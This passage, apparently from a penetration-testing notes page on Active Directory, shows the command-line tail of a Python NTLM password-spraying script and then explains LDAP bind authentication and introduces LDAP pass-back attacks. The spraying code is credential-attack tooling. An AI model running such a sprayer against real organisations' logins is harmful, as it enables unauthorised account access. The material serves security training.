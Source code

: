 ```python
elif opt in ("-u", "--userfile"):
userfile = str(arg)
elif opt in ("-f", "--fqdn"):
fqdn = str(arg)
elif opt in ("-p", "--password"):
password = str(arg)
elif opt in ("-a", "--attackurl"):
attackurl = str(arg)
if (len(userfile) > 0 and len(fqdn) > 0 and len(password) > 0 and len(attackurl) > 0):
#Start attack
sprayer = NTLMSprayer(fqdn)
sprayer.load_users(userfile)
sprayer.password_spray(password, attackurl)
sys.exit()
else:
print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
sys.exit(2)
if __name__ == "__main__":
main(sys.argv[1:])
```

### LDAP Bind Credentials <a href="#zdgjb5muu5or" id="zdgjb5muu5or"></a>

### LDAP <a href="#id-92mld3hk441h" id="id-92mld3hk441h"></a>

Lightweight Directory Access Protocol (LDAP) authentication is similar to NetNTLM authentication but application directly verifies user’s credentials. Application has pair of AD credentials that it uses to first query LDAP then verify AD user’s credentials.

![](<../.gitbook/assets/1 (1).png>)

LDAP authentication is popular with non-Microsoft applications that integrate with AD. Any Internet exposed services that use NTLM authentication can be leveraged using same attacks as NetNTLM. Additional attack vectors are available as service that utilises LDAP authentication requires set of AD credentials. AD credentials used by the service may be recovered to gain authenticated access to AD.

### LDAP Pass-back Attacks <a href="#n7h9s9fxqvz5" id="n7h9s9fxqvz5"></a>
